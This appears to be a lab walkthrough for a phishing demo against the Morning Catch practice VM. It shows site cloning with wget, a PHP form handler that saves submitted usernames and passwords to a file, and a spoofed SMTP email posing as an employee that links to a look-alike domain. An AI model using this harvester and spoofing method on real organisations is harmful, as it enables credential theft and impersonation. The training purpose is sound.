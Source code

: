 # Intro to Phishing Demo

This demo will be an example of a credential harvesting attack without using attack tools. 

## Prerequisites

### Attacker VM 

Networking: Host Only or Internal 
Open Ports: 80

Linux with the following packages installed: 
 - php 5.4 or newer 
 - wget 
 - Firefox or Chrome

### Victim

Networking: Host Only or Internal
Open Ports: 25, 80

We will be using the Morning Catch VM created by Raphael Mudge: http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

It can be downloaded from vulnhub.com at: https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/

### Setup DNS Entries 

#### On the Attacker VM 

Add the attacker and victim IPs to /etc/hosts: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

#### On the Victim VM

Add the attacker IP to /etc/hosts:

```
<Attacker IP>	mornincatch.ph
```

## Recon 

Our target is the Morning Catch company, our first reconnaissance step should be exploring their Internet presence at http://morningcatch.ph: 

![morningcatch.ph](img/morningcatch.png)

On the website we find a list of contacts on the company directory: 
![Employee Directory](img/employee-directory.png)

And a login for what appears to be webmail: 
![Employee Login](img/employee-login.png)

## Setup

We can launch a credential harvesting attack by cloning the site and convincing a user to enter their credentials on our webserver. 

### Cloning morningcatch.ph

Using wget we can clone the site: 

```bash
wget -r -l1 -k -p morningcatch.ph/mail/
sudo mv morningcatch.ph/mail /var/www/html/
sudo vim /var/www/html/mail/index.html
```

In order to capture the credentials entered into our site we need to modify the login form to call a php script that will save the form input to disk.

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

Now we just need to write the form.php script:

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

```bash
touch /var/www/html/mail/creds.txt
sudo chown www-data:www-data /var/www/ -R 
```

And verify that the site works correctly by logging in and checking creds.txt:

![Successful Login](img/successful-test.png)

## Send Messages to Target 

### Email Server - Pretending to be Boyd
Now that we have setup the site we can craft the email for the target:


```bash
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```

### Richard Checks his Mail

When Richard Bourne goes to check his email, he receives the following message: 

![Richard's Email](img/bourne-email.png)

Being the savy CEO he is, Richard clicks the link:

![Richard's Email](img/bourne-webmail.png)

## Responses 

The responses can be recorded using our cred.txt file: 

```
hans	i<3cats
rbourne	password
```

The apache2 logs
```
INSERT SERVER LOGS
```

## Report 
